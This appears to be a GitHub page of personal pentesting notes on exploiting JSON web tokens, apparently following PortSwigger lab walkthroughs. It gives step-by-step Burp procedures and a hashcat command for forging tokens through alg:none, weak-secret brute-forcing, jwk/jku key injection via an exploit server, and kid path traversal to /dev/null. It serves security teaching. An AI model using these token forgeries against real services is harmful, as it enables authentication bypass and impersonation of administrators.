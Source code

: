 ## JWT
JSON web tokens (JWTs) are a standard format for sending cryptographically signed JSON data between systems. They're commonly used in authentication, session management, and access control mechanisms. This means that if an attacker can successfully modify a JWT, they may be able to escalate their own privileges or impersonate other users.
## Exploiting JWT
Use inspector in Burp to work with JSON value.
### Accepting arbitrary signatures
JWT libraries typically provide one method for verifying tokens and another that just decodes them. For example, the Node.js library jsonwebtoken has ```verify()``` and ```decode()```. Occasionally, developers confuse these two methods and only pass incoming tokens to the ```decode()``` method. This effectively means that the application doesn't verify the signature at all. So, can provide your arbitrary value in json data to access some malicious goals, like changing user value to ```admin/administrator``` to achieve administritive priviledge. 
### Accepting tokens with no signature
JWT format ```header.payload.signature```.
```
1. Set alg parameter value to none.
2. Set/change username, role, id in paylaod.
3. Remove the signature from the JWT, but remember to leave the trailing dot after the payload.
```
### JWT authentication bypass via weak signing key (Bruteforcing)
 When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, it can be trivial for an attacker to brute-force a server's secret with a wordlist using hashcat.
 ```
hashcat -a 0 -m 16500 eyJraWQiOiIyZTI4MDIyYy02NWQ3LTRjNTEtYjU3Ni1mYWY3Mjg4MzVhMTUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxMTIyMDc5MSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.gteqm9hkHA6PdSv0pqbXBeUCON_8kwelR7Be1NI6WMs jwt.secrets.list
```
### JWT header parameter injections
 According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.
```
jwk (JSON Web Key) - Provides an embedded JSON object representing the key.

jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.

kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.
```
#### Injecting self-signed JWTs via the jwk parameter
Ideally, servers should only use a limited whitelist of public keys to verify JWT signatures. However, misconfigured servers sometimes use any key that's embedded in the ```jwk parameter```. You can exploit this behavior by signing a modified JWT using your own RSA private key ```kid```, then embedding the matching public key in the ```jwk header```.
```
1. Send to Repeater.
2. Go to JSON Web Token tab to change payload info.
3. Go to JWT Editor to generate new RSA key kid.
4. Go to JSON Web Token tab >> select Attack >> select Embedded JWK >> press OK to add new generated kid.
5. Now send HTTP request.
```
#### Injecting self-signed JWTs via the jku parameter
Instead of embedding public keys directly using the jwk header parameter, some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key. When verifying the signature, the server fetches the relevant key from this URL. Sometimes attacker can take advantange of it to bypass authentication via jku header. More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing (See SSRF) discrepancies to bypass this kind of filtering.
```
1. Send to Repeater.
2. Go to JSON Web Token tab to change payload info.
3. Go to JWT Editor to generate new RSA key.
4. Host this RSA key in your exploit server in JSON format with a path /.well-known/jwks.json.

Example:
{
    "keys": [
     Your RSA key
    ]
}
or,
{
    "keys": [
    {
    "p": "9NWaOlD0WI9Ar5o1uTI9MLQ20LkaCej_Hh8sFkWPtYwzPin4YPgFWCL-YhRUELlqLr5sC1irK_D03WI_isk294jxhCFOy3kRWC07NQjLS1A71UVAaftoCybmpQiINvN5ZKnoGRQessKILTBc4qAZ_MOZfxkqFXHRfkIDSAxTCrc",
    "kty": "RSA",
    "q": "10b7QrJOLGFtcIvTwuWeGekt-VhJOfU-zFX3Tn2sOT0VMJoFtPAD4p4EyNbUEW1ih-kjeCA7xfAvZS67cN_y-sj0gbOQ7ikA0p6P4Te0-5FYmewpywIYJnWMy1QEI9NdF6YJ-rdLez9QysvL8NnLYmQQ1iI1NQuOq3K0oXwN-70",
    "d": "AZ6PTjIMVFAeYF5hkygJzet3FxhM7xRo5K9BA5vkL5l4XgLvBB0EjUORFKf2obFmskEfyK5HQIu0BAJecFtPaOYSlCHwG5q_iDT6TlSUQTvXKv9VQ7WRULRFuI3mvh9bYJORcF9Gahdb9xhk5IUz-To6xIgi8kbB0R1Ou1lTjONnppl2x1mxkEJhoqkumrKqZ2RhW0tOS4H6JXwfvH_dUcEJjAnMGmt3Gbi9VzNH7yvIHvFJ1nqCMH0nfKlPW6lmc6xeBopt9fFF9cFnuCGwRgbXO8Xl8AUKQkzCouLAPjhVmPNFiX8AYamFwNJGRnT9rGmDV3ZCI8N2RLVWgStsJQ",
    "e": "AQAB",
    "kid": "d487d8ca-98db-4a06-be52-f7f1cb12a6f1",
    "qi": "xLTBO5hWy8u7B1H3Ab3CjD_UgYfQSkBBoLeFeT6iTUklGU1DvZnURW3B0qOSS7RUZo7_PmV-vDmMuvOnVS0xCs-kujCQYx5LhOYbe2kKtL1GNcGaDCpF-Dc4R4yC8x_RJtQst4axiTMtDBIuH9bEGrkwF-IhXdoHOHcN9ljc7Cs",
    "dp": "2_2-ad3p4FU_s0mmMjUBJG0Zv-xCiFsSOPebfpucaG2Ecbv2kPLqomo3FtvbOXfRABVcMcnHbGFDNFUecU8hk8Q59xaSnWO4gPmLdLjlKlP6n0Rtf41FzJd0sR98fZvCHQBKK5aXitoe0DPfkkZ3c1Yx6zEqTkCKE5-vISLpzvs",
    "dq": "eubMNYSkOpQYrcM2TzNV8ob8Nzke_Ra1FmURvl7i_v6PZWLZVTYdkbgTFTIIejaPpPYFyOPmHBgGhuaKHmPMTT6C0LVaTY1dKeFaVQK_sUuGYMHCDmMQtIwxqDc78dQOdpzVX6xbTG6WSmDU-pjskyx7rDR1WeZSOjFPTE4NkaU",
    "n": "zeNHPF2_klxmfQ_ENEz1d5MPufzt3bUOFJ2hLho4QhPGCuzF2XHi9Xi12UjPPfAD3LmcHBVOkahBDT8Xi00_ANWBAjSY20Z9-OyP-zuAxMZXcpKTt5LT7VB6T8z2y0NkQ7X2xmvjsXMPId3oJi7aiYxXi4OkdpA8YAhZ9gVeKJ5W3tcNIfRkXVkYm3AkLpR7N0IcXsFalzNDGHCE-EBCg1RKbayDG7R5HTtRecnz26L_ibPTB1wi21w3m-dBV1Mp1iWQFWBgcjtavE7e4WMvJk69xTyNsk9LFfKkt1LclFzPUPybEJYldSWee7AaAgQEY2RKYkPFTgUm1VLFtBtWGw"
}
    ]
}
5. Change kid to new RSA key kid.
6. Now add a new header parameter jku and paste exploit server url.
Example
"jku": "https:exploit.server/.well-known/jwks.json"
7. Now press >> sign in JSON Web Token tab >> Don't modify header >> send request
```
#### Injecting self-signed JWTs via the kid parameter
 Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature. Verification keys are often stored as a JWK Set. In this case, the server may simply look for the JWK with the same kid as the token. However, the JWS specification doesn't define a concrete structure for this ID - it's just an arbitrary string of the developer's choosing. For example, they might use the kid parameter to point to a particular entry in a database, or even the name of a file. If this parameter is also vulnerable to ```directory traversal```, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.  This is especially dangerous if the server also supports JWTs signed using a symmetric algorithm. In this case, an attacker could potentially point the kid parameter to a predictable, static file, then sign the JWT using a secret that matches the contents of this file. You could theoretically do this with any file, but one of the simplest methods is to use ```/dev/null```, which is present on most Linux systems. As this is an empty file, reading it returns an empty string. Therefore, signing the token with a empty string will result in a valid signature. If the server stores its verification keys in a database, the kid header parameter is also a potential vector for ```SQL injection``` attacks.
 ```
Generate a suitable signing key

    In Burp, load the JWT Editor extension from the BApp store.

    In the lab, log in to your own account and send the post-login GET /my-account request to Burp Repeater.

    In Burp Repeater, change the path to /admin and send the request. Observe that the admin panel is only accessible when logged in as the administrator user.

    Go to the JWT Editor Keys tab in Burp's main tab bar.

    Click New Symmetric Key.

    In the dialog, click Generate to generate a new key in JWK format. Note that you don't need to select a key size as this will automatically be updated later.

    Replace the generated value for the k property with a Base64-encoded null byte (AA==). Note that this is just a workaround because the JWT Editor extension won't allow you to sign tokens using an empty string.

    Click OK to save the key.

Modify and sign the JWT

    Go back to the GET /admin request in Burp Repeater and switch to the extension-generated JSON Web Token message editor tab.

    In the header of the JWT, change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
    ../../../../../../../dev/null

    In the JWT payload, change the value of the sub claim to administrator.

    At the bottom of the tab, click Sign, then select the symmetric key that you generated in the previous section.

    Make sure that the Don't modify header option is selected, then click OK. The modified token is now signed using a null byte as the secret key.
If this not work, try this >> https://youtu.be/hpQfxY8X4tI?si=oO-PYFtNsJ0GR8mk
```





